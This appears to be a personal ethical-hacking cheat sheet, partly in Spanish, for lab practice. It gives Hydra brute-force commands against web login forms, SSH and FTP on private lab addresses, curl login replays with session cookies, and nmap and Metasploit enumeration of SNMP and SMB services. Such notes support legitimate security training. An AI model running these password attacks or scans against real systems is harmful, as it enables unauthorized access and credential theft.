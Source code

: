 # EH-Notes

## Brute Force
### Hydra
#### HTTP Attacks
##### GET Form
`hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://192.168.57.132/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low:F=Username and/or password incorrect'`


`curl 'http://192.168.57.132/vulnerabilities/brute/?username=admin&password=admin&Login=Login#' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://192.168.57.132/vulnerabilities/brute/' -H 'Cookie: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low' -H 'Upgrade-Insecure-Requests: 1'`

##### POST Form

`hydra -l admin -P /usr/share/wordlists/john.lst http-post-form://192.168.57.132/login.php:"username=^USER^&password=^PASS^&Login=Login":"Login failed"`

`curl 'http://192.168.57.132/login.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.57.132' -H 'Connection: keep-alive' -H 'Referer: http://192.168.57.132/login.php' -H 'Cookie: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=admin&password=admin&Login=Login'`

##### SSH 
`hydra -l root -P /home/kali/tools/pass.txt 192.168.57.131 ssh -t 4`

##### FTP
`hydra -t 3 -V -ensr -l root -P /usr/share/wordlists/john.lst 192.168.57.132 ftp`

## Services
### FTP
#### Login

`ftp IP`

`user`

`password`

#### Download files

`get file.txt`

### SNMP

Listar equipos con SNMP

`sudo nmap -sU -p 161 --script=snmp-info 192.168.100.0/24`

Informacion SNMP

`snmp-check IP-SNMP`

Procesos SNMP

`nmap -sU -p 161 --script=snmp-processes IP`

Interfaces SNMP

`nmap -sU -p 161 --script=snmp-interfaces IP`

String validos SNMP con metasploit

`msfdb init`

`msfconsole`

`search snmp`

`use auxiliary/scanner/snmp/snmp_login`

`SET RHOST IP-SNMP`

`run`


### SMB

#### Enumeracion

`nmap -p445 IP`

Enumerar carpetas compartidas

`nmap -p445 --script smb-enum-shares IP`

Enumerar usuarios

`nmap -p445 --script smb-enum-users IP`

`nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=password IP`

#### Acceder a traves de interfaz grafica

`smb://IP`



## Wordlist
`/usr/share/wordlists/metasploit]`

`/usr/share/wordlists/john.lst`

`/usr/share/wordlists`



